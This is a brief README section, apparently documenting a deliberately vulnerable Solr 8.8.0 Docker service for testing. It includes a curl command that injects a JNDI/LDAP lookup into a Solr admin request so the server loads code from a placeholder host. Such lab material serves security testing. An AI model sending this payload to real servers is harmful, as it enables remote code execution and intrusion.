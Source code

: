 # Vulnerable Services

## solr 8.8.0

The docker image for solr 8.8.0 uses a version of Java new enough that it requires a system property be misconfigured to work...  It needs `com.sun.jndi.ldap.object.trustURLCodebase=true`.

To exploit:

```
curl 'http://SOLR_SERVER_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://TARGET_IP:8080/PATH\}'
```
